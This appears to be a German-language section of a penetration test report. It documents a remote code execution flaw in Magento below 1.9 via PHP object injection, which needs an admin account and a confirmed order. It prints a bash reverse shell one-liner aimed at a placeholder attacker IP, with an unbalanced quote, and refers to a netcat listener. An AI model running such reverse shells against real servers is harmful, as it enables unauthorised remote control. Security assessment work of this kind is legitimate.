 
\section{\makecvssbadge Remote Code Execution (RCE)}

\subsection*{Proof of concept}
Über eine weitere bekannte Schwachstelle für Magento-Installationen unterhalb der Version 1.9 können Systembefehle auf dem Webserver ausgeführt werden. Um diese Schwachstelle ausnutzen zu können, müssen Anmeldedaten für einen Benutzer mit Administratorzugriff vorhanden sein. Die Erstellung eines solchen Accounts wurde im vorherigen Kapitel beschrieben. Damit der Exploit funktioniert, muss zunächst eine Bestellung aufgegeben und von einem Administrator bestätigt werden. Danach kann das Python-Skript ausgeführt werden, das die Schwachstelle ausnutzt. Das angepasste Python-Skript befindet sich in \autoref{listing:appendix:pfeifenkrautshop_RCE}.  Die Schwachstelle wird durch ein unsicheres PHP-Skript ausgenutzt. Dieses Skript behandelt PHP-Objekte unsicher, so dass eine PHP Object Injection möglich ist. Dazu wird eine POP-Kette übergeben, die bei der Deserialisierung der Objekte ein übergebenes Systemkommando ausführt. Wird dieses Systemkommando wie in \autoref{listing:bash-reverse-shell} ausgewählt, kann eine Reverse Shell gestartet werden. Der entsprechende Netcat-Listener, der auf dem Angreifersystem für diese Reverse Shell ausgeführt wird, ist in \autoref{listing:netcat-listener} dargestellt. Ein Nachweis ist in \autoref{fig:07_pfeifenkraut_shop_proof} dargestellt. 

\begin{listing}[!ht]
\begin{verbatim}
bash -c 'bash -i >& /dev/tcp/<Angreifer-IP>/9001 0>&1
\end{verbatim}
\caption{Bash Reverse Shell}
\label{listing:bash-reverse-shell}
\end{listing}

